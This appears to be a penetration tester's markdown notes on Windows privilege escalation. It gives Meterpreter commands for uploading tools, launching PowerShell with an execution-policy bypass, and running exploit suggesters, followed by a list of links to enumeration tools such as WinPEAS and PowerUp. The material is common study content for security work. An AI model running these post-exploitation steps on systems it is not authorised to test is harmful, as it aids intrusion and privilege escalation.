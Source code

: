 ### Automated Tools

When uploading these tools, you can usually put them in C:\Windows\Temp  
&ensp;If you're in a meterpreter session, using the following commands should accomplish this.  
&ensp;&ensp;`meterpreter> cd c:\\windows\\temp`    - use the extra \ in order to escape the character so that it's not used as code  
&ensp;&ensp;`mterpreter> upload <local file path of your tool>`  
&ensp;If you need to get into powershell to try another tool, use the following  
&ensp;&ensp;`meterpreter> shell`  
&ensp;&ensp;`meterpreter> powershell -ep bypass`  - `-ep` means execution policy and you are bypassing that.  
&ensp;If that doesn't work from shell, you can try directly from meterpreter prompt  
&ensp;&ensp;`meterpreter> load powershell`  
&ensp;You can also run the post exploit module from metasploit.  This works as a suggester to give you a few different avenues.   
&ensp;&ensp;`meterpreter> run post/multi/recon/local_exploit_suggester`  - you can tab this out as well  
&ensp;&ensp;Once that finishes, you can take that and any info you get from `systeminfo` and copy them into a notepad file.  
&ensp;&ensp;&ensp;`meterpreter> shell`  
&ensp;&ensp;&ensp;`c:\windows\system32\inetsrv>systeminfo`  - save this, it will be needed later  
&ensp;Also run windows exploit suggester by extracting it after download and then doing the following  
&ensp;&ensp;`root@kali:~/Downloads# cd ~` - either to root or wherever you extracted the package  
&ensp;&ensp;`root@kali:~# ./windows-exploit-suggeter.py --update`  - You'll want to note the database from this command in the `writing to file <filename>` where the filename will be the database.  
&ensp;&ensp;`pip install xlrd --upgrade`  - this will update or install the python-xlrd dependancy  
&ensp;&ensp;`root@kali:~# ./windows-exploit-suggester.py --database <the database from the update command> --systeminfo <the file with the sysinfo in it>`  


Always Always ALWAYS try more tools.  If one doesn't work, try the next one, and if that doesn't work, try still the next one.



WinPEAS - https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS
&ensp;Does require .NET 4.0 or higher.  There is a .bat file to check if this script will work.

Windows PrivEsc Checklist - https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation
&ensp;This is a handy tool, giving you a checklist of sorts to see what you could run.

Sherlock - https://github.com/rasta-mouse/Sherlock
&ensp;Powershell script that looks for common vulnerabilities.

Watson - https://github.com/rasta-mouse/Watson
&ensp;Another scan like Sherlock.  This does need to be compiled though.  This requires you know the version of .NET that is installed.

PowerUp - https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc
&ensp;Very nice tool.

JAWS - https://github.com/411Hall/JAWS

Windows Exploit Suggester - https://github.com/AonCyberLabs/Windows-Exploit-Suggester

Metasploit Local Exploit Suggester - https://blog.rapid7.com/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/

Seatbelt - https://github.com/GhostPack/Seatbelt
&ensp;This also needs to be compiled, like Watson.

SharpUp - https://github.com/GhostPack/SharpUp


